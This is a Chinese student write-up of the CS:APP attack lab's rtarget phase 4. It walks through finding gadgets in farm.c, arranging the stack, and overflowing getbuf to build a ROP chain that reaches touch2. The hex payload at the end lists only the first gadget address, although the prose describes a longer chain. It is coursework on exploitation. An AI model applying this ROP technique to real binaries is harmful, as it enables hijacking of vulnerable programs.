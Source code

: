 ### rtarget
总览：栈帧随机化且不可执行，用rop进行攻击

## phase4
要求：用rop在rtarget下完成phase2
rtarget中可用的gadget在farm.c文件中，根据题意只需要使用两个，且在start_farm到mid_farm之间。
开始思路，根据示例提示，我们需要利用farm.c中的gadgets。现在遇到问题1：如何获取其机器码，此刻我们可以很自然的联想到，在*.s文件中编写汇编后使用命令
```markdown
gcc -c *.s
unix> objdump -d *.o > *.d
```
查看机器码。此刻需要注意：返回类型均为unsigned，因此操作大小为l。但此刻会出现一个问题，addval函数的汇编实现有两种，add和lea，我们无法确定编译器使用的是哪种，因此我们用gdb’的disas查看，整理汇总得到如下（每个函数都有ret，下略）：
```markdown
  0000000000000000 <.text>:
   0:	b8 fb 78 90 90       	mov    $0x909078fb,%eax            /*getval_142:0x000000000040199a <+0>:*/  
   6:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax      /*addval_273:0x00000000004019a0 <+0>: */ 
   c:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax      /*addval_219:0x00000000004019a7 <+0>:*/
  12:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)          /*setval_237:0x00000000004019ae <+0>:*/ 
  18:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)          /*setval_424:0x00000000004019b5 <+0>:*/
  1e:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)          /*setval_424:0x00000000004019b5 <+0>:*/
  24:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)          /*setval_426:0x00000000004019c3 <+0>:*/....
  2a:	b8 29 58 90 c3       	mov    $0xc3905829,%eax            /*getval_280:0x00000000004019ca <+0>:*/
```
为了完成，我么需要的流程为：传入touch2接受的val，跳转到touch2。
我们知道，标准规定下，传入的第一个变量存储在rdi中，查看attacklab.pdf的3A-D，我们在上述机器码中搜索5f（pop rdi）没有找到。因此，rdi不能从内存中获取。我们再搜索移动指令“48 89 ||89”我们发现，其后面跟的都是c7，查阅得：在这些gadget下我们只能执行movl eax,edi || movq rax,rdi的操作。也就是我们需要先将val传给ax再mov给di。我们搜索58（pop rax）发现可以找到，因此为了匹配，我们选择movq rax,rdi。解决流程变为了：将==cookie的val值入栈（push）=》pop rax=》movq rax,rdi=》jmp <touch2>。
根据上述机器码我们易得：
```markdown
0x4019ab<+0>：58 popq rax
		 <+1>:90 nop
		 <+6>: C3 ret
		
0x4019a2<+0>：48 89 c7 movq rax,rdi
		  <+4>:C3 ret
0x4019c5<+0>: 48 89 c7 movq rax,rdi
		<+3>C3 ret
        <+4>C3 ret
```
![l3r1](https://img-blog.csdnimg.cn/8ea2afff29ad4531a7164f231f852aef.jpeg)
而我们只能通过getbuf的溢出实现。现在以无法在getbuf的栈帧中注入代码且执行，我们要利用程序已有的函数进行攻击。
我们在getbuf栈帧起始位置注入完毕后，getbuf函数要返回时(运行到ret处①，空间已释放add 0x28 0->①，%rsp指向test的栈帧顶)，我们想要执行pop rax的操作。因此在存储ret返回地址处①我们需要其跳转到一个gadget，根据以上，此处值应为0x4019ab。Getbuf的Ret执行后发生了：pop %rip;此时rsp指向了②。程序跳转到0x4019ab<+0>开始执行pop rax。此时rax=②处的值，因此②处的值应为我们的cookie：0x596997fa，rsp=③。在执行到<+6>ret时，此时rip=③处的值，rsp=④。接下来我们要执行mov rax,rdi。通过上述我们发现，有两个函数可以满足，任选其一即可。因此③处的值应为0x4019a2或0x4019c5。在执行ret时，弹出栈顶，程序运行④处值的地址，因此④处的值为0x4017ec(touch2函数的地址)。综上，我们注入的代码（已经破坏了test的栈帧和其之前的原始数据）转化为16进制为
```markdown
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
```